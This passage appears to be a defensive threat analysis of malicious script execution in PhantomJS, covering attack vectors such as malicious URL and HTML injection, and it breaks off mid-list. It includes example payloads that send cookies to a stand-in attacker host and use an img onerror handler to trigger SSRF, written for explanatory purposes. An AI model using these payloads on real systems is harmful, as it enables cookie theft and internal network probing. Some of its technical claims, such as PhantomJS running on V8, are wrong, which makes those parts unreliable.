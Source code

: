 ## Deep Analysis: Malicious Script Execution Threat in PhantomJS

This analysis delves into the "Malicious Script Execution" threat identified for our application utilizing PhantomJS. We will explore the technical details, potential attack vectors, and provide a more granular breakdown of mitigation strategies.

**1. Deeper Dive into the Threat:**

The core of this threat lies in PhantomJS's ability to execute JavaScript code within its rendering environment. While this is its intended functionality for web automation and testing, it becomes a vulnerability when processing untrusted or attacker-controlled content. The threat isn't just about running *any* JavaScript; it's about the **context and capabilities** available to that JavaScript within the PhantomJS environment.

*   **PhantomJS as a Browser Environment:**  PhantomJS, despite being headless, emulates a web browser. This means the JavaScript code executed within it has access to browser-like APIs (e.g., `XMLHttpRequest`, `fetch`, `localStorage` - though often limited or disabled). This access, when exploited, allows for actions beyond simple DOM manipulation.
*   **The V8 Engine (or Similar):**  As mentioned, the JavaScript execution environment is crucial. PhantomJS historically used the V8 engine (though it's an older version in the last official release). This engine is responsible for interpreting and executing the JavaScript code. Exploits could potentially target vulnerabilities within this engine itself, although this is less likely than exploiting the intended functionality.
*   **Bridging the Gap: JavaScript to System Calls:** The real danger arises when malicious JavaScript within PhantomJS can interact with the underlying operating system or network. This happens through the APIs and functionalities exposed by PhantomJS itself. For example:
    *   **`webpage.open()` with Malicious URLs:**  Providing a malicious URL can trigger PhantomJS to fetch and render attacker-controlled content, which can contain embedded JavaScript.
    *   **`webpage.evaluate()` with Untrusted Scripts:**  Directly passing strings containing JavaScript code to `webpage.evaluate()` is a prime attack vector if the input is not carefully sanitized.
    *   **Exploiting PhantomJS's Modules:**  PhantomJS offers modules like `child_process` (though access is often restricted) that, if accessible, could allow direct execution of system commands.
*   **Asynchronous Nature and Callbacks:**  JavaScript's asynchronous nature and reliance on callbacks can complicate security analysis. Malicious code might execute indirectly through event handlers or timers, making it harder to trace the execution flow.

**2. Detailed Attack Vectors:**

Let's expand on how an attacker might achieve malicious script execution:

*   **Malicious URL Injection:**
    *   **Scenario:** The application takes a user-provided URL as input and uses PhantomJS to render it for generating screenshots or PDFs.
    *   **Attack:** An attacker provides a URL pointing to a website they control. This website contains malicious JavaScript designed to exploit the PhantomJS environment.
    *   **Example Payload (within the malicious website):**
        ```javascript
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https://attacker.com/exfiltrate", true);
        xhr.setRequestHeader('Content-Type', 'application/json');
        xhr.send(JSON.stringify({ localFiles: document.cookie })); // Example: Exfiltrate cookies
        ```
*   **Script Injection via Content Manipulation:**
    *   **Scenario:** The application processes HTML content retrieved from an external source before passing it to PhantomJS.
    *   **Attack:** An attacker manipulates the source content to inject malicious `<script>` tags or event handlers.
    *   **Example Payload (injected into HTML):**
        ```html
        <img src="x" onerror="var xhr = new XMLHttpRequest(); xhr.open('GET', 'https://attacker.com/trigger-ssrf?target=internal-server', true); xhr.send();">
        ```
*   **Exploiting Vulnerabilities in Dependencies:**
    *   **Scenario:** PhantomJS relies on underlying libraries and components.